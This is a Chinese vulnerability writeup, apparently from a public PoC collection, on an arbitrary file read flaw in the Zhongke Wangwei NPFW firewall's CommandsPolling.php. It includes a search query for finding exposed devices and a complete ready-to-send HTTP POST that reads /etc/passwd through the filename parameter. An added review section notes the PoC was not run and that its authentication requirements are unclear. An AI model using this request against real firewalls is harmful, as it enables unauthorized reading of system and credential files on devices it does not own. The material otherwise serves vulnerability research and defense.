


# 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：中科网威NPFW防火墙
- 本文讨论：CommandsPolling.php filename读取
- 版本、权限与配置前提：请求携带PHPSESSID，command=ping；固件未知
- 资料类型：文件读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 未说明Cookie来源或认证必要性，不能直接标前台读取
- 仅请求/截图，无源码支撑过滤不足具体根因或任意权限范围

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 匿名访问/文件权限和厂商修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

```
中科网威 NPFW防火墙 
```

## 网络测绘

```
"中科网威" && "/direct"
```

## 漏洞复现

登录页面



发送请求包

```http
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```




---

> 来源：Threekiii/Awesome-POC
